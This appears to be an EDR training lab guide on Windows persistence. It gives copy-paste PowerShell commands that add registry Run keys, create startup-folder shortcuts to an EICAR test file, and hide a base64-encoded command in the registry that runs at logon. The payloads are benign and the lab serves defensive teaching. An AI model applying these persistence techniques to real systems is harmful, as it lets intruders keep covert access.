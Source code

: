 ```yaml
---
Title: ATT&CK - Persistence Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/14/2025
Achievements:
Duration: 15
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
External:
- attack.mitre.org
- allitshop.infocyte.com
- www.eicar.org/download/eicar.com.txt
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code.

In Lab 5, we will demonstrate some popular places to place malware references that will cause their malware to keep coming back. Autostart locations like Registry Run Keys or files in User Startup Folders will cause that program to execute when a user logs in or the system reboots. Each autostart may have it’s own trigger for automated execution

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Persistence phase of an attack
2. Demonstate some popular persistence methods and locations
   

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Instructions


For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 


### 1. Registry Run Key Foothold
> *The most popular persistence location is to place a reference to your malware file or command in the registry's Run Keys. All files referenced in a run key will execute upon a user logging in to the system, every time they log in.*
>
> We will demonstrate how this might look if the malware was not detected as malware by loading up our calculator. After that we'll try reference some malware using an EICAR file (fake malware that will flag on AV)

Add a path reference to the **Registry Run Keys**. 
- MITRE ATT&CK Technique: [ATT&CK T1547.001 - Persistence - Registry Run Key](https://attack.mitre.org/techniques/T1547/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Registry Run key with calc.exe
	Write-Host "Adding T1547.001 - Registry Run Key Foothold w/ simulated undetectable malware (calc)"
	REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team" /t REG_SZ /F /D "C:\Windows\System32\calc.exe -i $n"
	#REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team" /f
	```

### 2. Autostart Folder Shortcut
> *Another popular persistence location is to simply place a shortcut to the malware in the Windows autostart folder. All files referenced here will execute upon a user logging in to the system, every time they log in.*
>
> We will demonstrate this by creating a shortcut to an EICAR file (test malware that will flag on all AV engines) and placing it in either the system startup folder or user startup folder:
>
> C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\*.lnk
> OR
> $env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\*.lnk


Add a shortcut to malware in the **Autostart Folder**
- MITRE ATT&CK Technique: [ATT&CK T1547.009 - Persistence - Autostart Folder](https://attack.mitre.org/techniques/T1547/009)
- Copy and paste this command into the terminal:
	```PowerShell
	# Autostart Folder with EICAR test string
	Write-Host "Adding T1547.009 - Malicious Shortcut Link Persistence with detectable malware (EICAR File)"
	Write-Host "Writing EICAR file manually..."

	$EICARString = 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*'
	$EICARString | Out-File -Encoding ASCII -FilePath "$env:USERPROFILE\EICAR.exe" -Force
	$startupShortcut = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\evil_calc.lnk"
	$desktopShortcut = "$env:USERPROFILE\Desktop\evil_calc.lnk"

	$cmd = @"
	`$WScriptShell = New-Object -ComObject WScript.Shell
	`$Shortcut1 = `$WScriptShell.CreateShortcut('$startupShortcut')
	`$Shortcut1.TargetPath = '$env:USERPROFILE\EICAR.exe'
	`$Shortcut1.Save()

	`$Shortcut2 = `$WScriptShell.CreateShortcut('$desktopShortcut')
	`$Shortcut2.TargetPath = '$env:USERPROFILE\EICAR.exe'
	`$Shortcut2.Save()
	"@

	$cmd += "`nStart-Sleep -m $n"

	powershell.exe -NoProfile -Command $cmd
	```


### 3. Fileless Runkey Persistence
> *A more advanced form of persistence won't reference a file on disk, it will hide encoded and obfuscated code in the registry somewhere and run the command using the same persistence method.*
>
> *We will demonstrate this by encoding a simple command and placing that content in a random registry location. Then we will have the runkeys start powershell and execute that content. Any scan of the runkeys will just show a powershell command.*


Create a fileless reference in the **Registry Run Keys**
- MITRE ATT&CK Technique: [ATT&CK T1547.001 - Persistence - Registry Run Key](https://attack.mitre.org/techniques/T1547/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Autostart Folder with EICAR file
	Write-Host "Adding T1547.001 - Registry Run Key w/ Fileless Powershell Command"
	$Cmd = "Write-Host -ForegroundColor Green 'Mess with the Best, Die like the rest!'; Start-Sleep -m $n"
	$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($Cmd))
	# Add encoded Command to random registry location
	REG ADD "HKEY_CURRENT_USER\Software\Classes\RedTeamTest" /v RT /t REG_SZ /d $EncodedCommand /f
	
	# Add powershell reference to registry run key that will have it grab and execute the encoded command hidden in the registry
	$cmd = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp `"HKCU:\Software\Classes\RedTeamTest`").RT))); Start-Sleep -m $n"
	REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team Fileless" /t REG_SZ /F /D "powershell.exe -nop -command '$cmd'"
	#Remove-Item HKCU:\Software\Classes\RedTeamTest -Force -ErrorAction Ignore
	```

- Go ahead and run the command hidden in the registry now:
	```Powershell
	# Run the command from the registry on demand:
	$cmd = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp `"HKCU:\Software\Classes\RedTeamTest`").RT))); Start-Sleep -m $n"
	powershell.exe -nop -command $cmd
	```
	s> If you are successful, powershell will display a message in green.
